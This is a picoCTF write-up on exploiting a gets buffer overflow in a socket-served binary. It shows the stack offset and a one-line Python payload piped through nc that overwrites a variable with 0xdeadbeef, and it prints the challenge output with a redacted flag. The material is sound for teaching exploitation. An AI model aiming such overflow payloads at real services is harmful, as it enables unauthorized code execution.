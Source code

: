 Quite an easy vulnerability exploitation
We receive a binary that is served through a socket server

Loaded up to binary ninja

<img width="701" height="537" alt="code" src="https://github.com/user-attachments/assets/3367d915-e620-4c67-80c2-90a42c961e37" />

It has a classic `gets` buffer overflow. 
The binary is a 64bit binary and the `gets` function is limiting us from sending zeroes...
So we won't be able to send a ROP chain based on the program itself (binary has no PIE) because of the multiple zeroes we'll have to fill in...

Instead of that we can overflow the code variable which is zeroed at the start.
As you can see the stack diff between the buf and the code is 0x108
<img width="455" height="283" alt="stack" src="https://github.com/user-attachments/assets/0e52daea-6bb4-47e8-91c8-fefe00ca015f" />


So we'll only have to make code's value `0xdeadbeef` and we'll be able to lead the program to the system call that reads the `flag.txt`

```
python3 -c 'import sys, struct; sys.stdout.buffer.write(b"\xFF" * 0x108 + struct.pack("<L", 0xdeadbeef) + b"\n")' | nc mars.picoctf.net 31890
 ______________________________________________________________________
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \^ ^ |
|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \ ^ _ ^ / |                | \^ ^|
| ^/_\^ ^ ^ /_________\^ ^ ^ /_\ | //  | /_\ ^| |   ____  ____   | | ^ |
|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|
| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |
|^ ^ ^ ^ ^| /     (   \ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \|^ ^|
.-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |
|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\ |^ ^|
| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |
|'.____'_^||/!\@@@@@/!\|| _'______________.'|==                    =====
|\|______|===============|________________|/|""""""""""""""""""""""""""
" ||""""||"""""""""""""""||""""""""""""""||"""""""""""""""""""""""""""""
""''""""''"""""""""""""""''""""""""""""""''""""""""""""""""""""""""""""""
""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
"""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
My room is so cluttered...
What do you see?
code == 0xdeadbeef: how did that happen??
take a flag for your troubles
picoCTF{XXXXXXXXXXXXXXXXX}
```
